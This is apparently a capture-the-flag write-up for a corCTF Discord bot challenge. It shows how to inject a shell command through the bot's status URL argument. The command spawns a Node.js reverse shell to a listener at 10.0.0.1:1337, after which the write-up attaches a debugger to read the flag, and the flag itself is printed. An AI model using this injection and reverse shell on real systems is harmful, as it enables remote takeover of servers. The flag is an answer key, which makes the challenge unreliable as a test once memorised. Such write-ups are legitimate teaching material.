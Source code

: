  Note: the challenge server restarts every 5 minutes

 - Get the bot client id using discord developer mode (`814782167716462593`)
 - Invite the bot to a server you control (https://discord.com/oauth2/authorize?client_id=814782167716462593&permissions=0&scope=bot%20applications.commands)
 - Give yourself a role named `flagbot`
 - Create a listener with netcat (`nc -lvp 1337`)
 - Enter the following message on your discord server to create a reverse shell:

```
 f!status https://google.com/$(echo '(function(){
    var net = require(`net`),
        cp = require(`child_process`),
        sh = cp.spawn(`/bin/sh`, []);
    var client = new net.Socket();
    client.connect(1337, `10.0.0.1`, function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();' | node)
```

 - From the running netcat process, get the pid of node using `pidof node`, it should be the lower of the 2 numbers
 - Debug the server using `node inspect -p $pid`
 - Create a watcher using `watch('url')`
 - Set a breakpoint using `sb('/usr/src/app/index.js',28)`
 - When the program hits the breakpoint, follow the url (https://www.youtube.com/watch?v=mKOtZUJoyKo)
 - Get the flag from the video description (`corctf{what_a_bop_amiright??}`)

